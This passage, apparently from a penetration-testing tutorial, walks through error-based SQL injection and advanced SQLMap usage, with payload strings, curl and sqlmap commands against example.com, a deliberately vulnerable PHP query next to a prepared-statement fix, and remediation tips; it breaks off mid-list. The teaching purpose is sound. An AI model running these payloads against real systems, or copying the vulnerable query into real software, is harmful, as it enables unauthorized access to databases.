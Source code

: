 **Steps**:
1. Inject error payloads:
   - Test: `' AND 1=CONVERT(int,@@version) --`
   - Use cURL:
     ```bash
     curl -i "http://example.com/page?id=1' AND 1=CONVERT(int,@@version) --"
     ```
2. Check responses:
   - Look for database version or schema details.
   - Test: `' AND EXTRACTVALUE(1,CONCAT(0x7e,version())) --`.
3. Test variations:
   - Try: `' AND 1=(SELECT COUNT(*) FROM dual) --` (Oracle).
4. Use Burp Repeater:
   - Analyze error messages.

**Example Vulnerable Code (PHP)**:
```php
$id = $_GET['id'];
$result = mysqli_query($conn, "SELECT * FROM users WHERE id = '$id'");
```
Test: `?id=1' AND 1=CONVERT(int,@@version) --`
Result: Exposes MSSQL version.

**Example Secure Code (PHP)**:
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $id);
```
Test: No errors.

**Remediation**:
- Disable error messages:
  ```php
  ini_set('display_errors', 0);
  ```
- Use prepared statements:
  ```php
  $stmt->bind_param("i", $id);
  ```

**Tip**: Save error-based evidence in a report.

### 4. Test for Advanced SQLMap Usage

**Objective**: Use SQLMap for advanced testing scenarios.

**Steps**:
1. Test authenticated endpoints:
   - Use SQLMap:
     ```bash
     sqlmap -u "http://example.com/page?id=1" --cookie="session=abc123" --dbs
     ```
   - Add credentials:
     ```bash
     sqlmap -u "http://example.com/login" --auth-type=basic --auth-cred="user:pass" --dbs
     ```
2. Test POST data:
   - Use:
     ```bash
     sqlmap -u "http://example.com/login" --data="username=admin&password=test" --dbs
     ```
3. Test JSON/XML:
   - Use:
     ```bash
     sqlmap -u "http://example.com/api" --data='{"id":"1"}' --headers="Content-Type: application/json" --dbs
     ```
4. Enumerate database: